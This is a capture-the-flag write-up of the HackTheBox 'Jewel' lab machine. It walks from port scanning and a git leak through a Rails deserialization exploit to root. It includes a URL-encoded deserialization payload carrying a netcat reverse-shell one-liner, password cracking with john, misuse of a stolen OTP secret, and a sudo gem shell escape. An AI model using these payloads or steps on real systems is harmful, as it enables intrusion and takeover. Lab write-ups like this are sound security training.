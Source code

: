 ```yaml
---
title: HackTheBox Jewel Writeup
published: false
---
```


![](https://i.ibb.co/Q9tCD1K/logo.png)

# []()Methodlogy

* Nmap Scan
* Enumerating the web service
* found a version of ruby and exploit of it.
* server side template injection exploitation
* found the password of user bill in /var/backup
* found the secret token of Google Authenticator
* using sudo -l leads us to final part!.

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine, and i found these services.**

* **22 for ssh service.**
* **8000 for http**
* **8080 for nginx**

> **nmap -Pn -sC -sV -oN scan.txt 10.10.10.211**

```ruby

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
8000/tcp open  http    Apache httpd 2.4.38
|_http-generator: gitweb/2.20.1 git/2.20.1
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: jewel.htb Git
|_Requested resource was http://jewel.htb:8000/gitweb/
8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

# []()Web Service Enumeration

* **let's add jewel.htb to our /etc/hosts and start enumerating the web service.**

> **i've found a basic blog on port 8080**

![](https://i.ibb.co/DVznD7p/basic-web-page.png)

* let's sign up and look deeper.

* here i'm logged in.

![](https://i.ibb.co/mXQQNP0/logged-in.png)

> **let's check the port 8000 now.**

![](https://i.ibb.co/D4QSrHB/port-8000.png)

> **it's a .git directory, let's check if there is any good things for us.**

> **click on .git and click on intial commit and yoi will find some Gem files so let's check it.**

![](https://i.ibb.co/CtdbzT0/gem-files.png)

> **in the gem file i found the ruby version**.

![](https://i.ibb.co/WxxZLx9/ruby-version.png)

> **and there's exploit for this version**

* Link: [Ruby On Rils](https://github.com/masahiro331/CVE-2020-8165)

![](https://i.ibb.co/qkHqBD3/ruby-exploit.png)

> **now we need to register a new user and put the payload in the username field to get a reverse shell.**

> **let's register a new user and click on profile and click edit and click save and intercept the request with burpsuite**.

![](https://i.ibb.co/JmP9ZpR/burp-suite.png)

> **put this payload in username filed with changing the IP address.**

* payload: **%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T**

* **send the request twice and then refresh the web page.**

* **don't forget to start nc listener.**

![](https://i.ibb.co/R6NFYFC/reverse-shell.png)

* **nice!, we got a reverse shell now.**

# []()Privilege Escalation

> **after some eumeration i foudn the password of the user bill in /var/backups**

![](https://i.ibb.co/zQJw7YS/cat-comm.png)

![](https://i.ibb.co/pZgZn07/bill-pass.png)

* **let's crack the password now.**

> **sudo john --wordlist=/usr/share/wordlists/rockyou.txt pass**

![](https://i.ibb.co/CHt410K/pass-cracked.png)


> **when you try sudo -l you will see that it's request Verification code.**

![](https://i.ibb.co/93H4Hsy/verify.png)

> **there is a hidden file in home directory of bill which contain a secret token of google authenticator**.

![](https://i.ibb.co/1b18YVs/google-auth.png)

> **so we need to add the google authnticator [GAuth addon](https://chrome.google.com/webstore/detail/gauth-authenticator/ilgcnhelpchnceeipipijaljkblbcobl?hl=en) to google chrome and put the secret token in it and it will generate the OTP for us.**

![](https://i.ibb.co/PZ0CFYh/google-auth-add.png)

* **and here's the OTP**

![](https://i.ibb.co/k0pxQht/otp.png)

> **let's check "sudo -l" again**.

![](https://i.ibb.co/jkqsHQc/operation-not-per.png)

> **in this part i spend a day to identify my mistake but i didn't find anything until my friend told me this machine is all about sync.**

* **let's check the time and the date.**

![](https://i.ibb.co/rc1bfjz/timedatectl.png)

> **it's different date and time from my local date and time, so we need to change it.**

![](https://i.ibb.co/ggJ2g4Q/time-zone-change.png)

* **let' check again**

![](https://i.ibb.co/94QxWM0/bill-gem.png)

> **nice!, we will use gem command to get root ,let's open gtfobins now.**

![](https://i.ibb.co/FHpdq3F/gem-gtfobins.png)

> **sudo gem open -e "/bin/sh -c /bin/sh" rdoc**

![](https://i.ibb.co/q0dGffv/rooted.png)

* **rooted**

* **Thanks For Reading**

* **cheers!**

 <script src="https://www.hackthebox.eu/badge/103789"></script>





